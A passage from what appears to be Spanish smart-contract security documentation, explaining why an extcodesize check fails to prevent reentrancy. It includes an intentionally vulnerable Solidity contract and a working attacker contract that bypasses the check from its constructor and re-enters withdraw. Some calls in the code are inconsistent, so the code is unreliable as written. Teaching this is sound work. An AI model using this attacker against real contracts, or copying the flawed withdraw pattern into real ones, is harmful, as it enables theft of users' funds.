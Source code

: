 Uno podría considerar derrotar la reentrada simplemente impidiendo que cualquier contrato inteligente interactúe con tu código. Si buscas stackoverflow, encuentras el segmento de código con muchos votos positivos:

```solidity
function isContract(address addr) internal returns (bool) {
  uint size;
  assembly { size := extcodesize(addr) }
  return size > 0;
}
```

Parece tener sentido: Los contratos tienen código, si la persona que llama tiene algún código, no permite que deposite. Vamos a añadirlo:

```solidity
// ESTE CONTRATO TIENE VULNERABILIDAD INTENCIONAL, NO COPIAR
contract ContractCheckVictim {
    mapping (address => uint256) public balances;

    function isContract(address addr) internal returns (bool) {
        uint size;
        assembly { size := extcodesize(addr) }
        return size > 0;
    }

    function deposit() external payable {
        require(!isContract(msg.sender)); // <- NEW LINE
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Ahora, para poder depositar ETH, no necesitas tener un contrato inteligente en tu dirección. Sin embargo, esto se contradice fácilmente con el siguiente contrato de Atacante:

```solidity
contract ContractCheckAttacker {
    constructor() public payable {
        ContractCheckVictim(VICTIM_ADDRESS).deposit(1 ether); // <- Nueva línea
    }

    function beginAttack() external payable {
        ContractCheckVictim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
   }
}
```
